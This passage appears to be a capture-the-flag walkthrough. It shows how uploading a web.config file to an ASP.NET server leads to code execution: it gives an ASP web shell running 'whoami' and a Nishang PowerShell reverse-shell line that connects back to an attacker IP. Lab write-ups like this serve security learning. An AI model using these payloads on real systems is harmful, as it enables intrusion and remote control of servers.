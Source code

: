 I tested the _ASP_ and _ASPX_ extensions but they both give me an “_invalid file_” error.

![](https://miro.medium.com/max/447/1*1n2iQbwqA82OFouPmTiDeA.png)

It does however accept the _.config_ extension, so we can upload a _web.config_ file. This is a configuration file that is used to manage various settings of the web server. We shouldn’t be able to upload/replace this file in the first place, but to make matters even worse, if you google “_web.config bypass upload restrictions_”, you’ll find this [link](https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/), explaining how you could get remote code execution by simply adding _ASPX_ code in the _web.config_ file.

Let’s test it out. Copy the code from [this link](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/) and save it in the _web.config_ file. The code contains _ASPX_ code that adds the integers 1 and 2 and outputs it on the screen. If we see the value 3 on the screen, we’ll know that we can run _ASPX_ code using the _web.config_ file.

Upload the file and view it.

![](https://miro.medium.com/max/565/1*_dcE0lMRhg7oQAYEjeSxsg.png)

Perfect! Now we’re pretty confident that we can get remote code execution through this upload functionality.

## Initial Foothold <a id="56d6"></a>

Remove the ASPX code from the file and replace it with the following simple web shell.

```text
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c whoami")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

The above code executes the _whoami_ command and outputs it on the screen. Upload the _web.config_ file and view it.

![](https://miro.medium.com/max/576/1*9yMgDaq5zXx5yedOUmROAg.png)

We definitely have code execution! Download the [Nishang](https://github.com/samratashok/nishang) repository and copy the _Invoke-PowerShellTcp.ps1_ script into your current directory.

```text
cp ../../tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell.ps1
```

Add the following line to the end of the script with the attack machine configuration settings.

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 1234
```

When called, this sends a reverse shell back to our attack machine on port 1234.
